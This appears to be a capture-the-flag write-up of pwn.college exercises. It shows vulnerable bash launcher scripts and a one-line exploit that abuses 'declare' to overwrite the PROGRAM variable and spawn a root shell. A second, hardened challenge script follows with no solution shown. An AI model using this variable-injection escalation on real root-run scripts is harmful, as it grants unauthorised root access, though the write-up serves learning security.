 ### chall

```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin
WORKDIR=$(mktemp -d) || exit 1
cd $WORKDIR

echo -e "Welcome! This is a launcher that lets you set an environment variable and then run a program!\nUsage: $0 VARNAME VARVALUE PROGRAM"
[ "$#" -eq 3 ] || exit 2

if [ "$3" != "fortune" ]
then
	echo "Only 'fortune' is supported right now!"
	exit 1
else
	cp /usr/games/fortune $WORKDIR
	PROGRAM="$WORKDIR/fortune"
fi

declare -- "$1"="$2"
$PROGRAM
```

### exploit
```sh
/challenge/run PROGRAM bash fortune
```
'declare' command allows me to modify variable, so I modified 'PROGRAM' to run bash, becoming a root

# Voyage of the Variable

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin
WORKDIR=$(mktemp -d) || exit 1
cd $WORKDIR

echo -e "Welcome! This is a launcher that lets you set an environment variable and then run a program!\nUsage: $0 VARNAME VARVALUE PROGRAM"
[ "$#" -eq 3 ] || exit 2

if [ "$3" != "fortune" ]
then
	echo "Only 'fortune' is supported right now!"
	exit 3
else
	cp /usr/games/fortune $WORKDIR
	PROGRAM="$WORKDIR/fortune"
fi

[ "$1" = "PROGRAM" ] && exit 4
declare -- "$1"="$2"
$PROGRAM
```
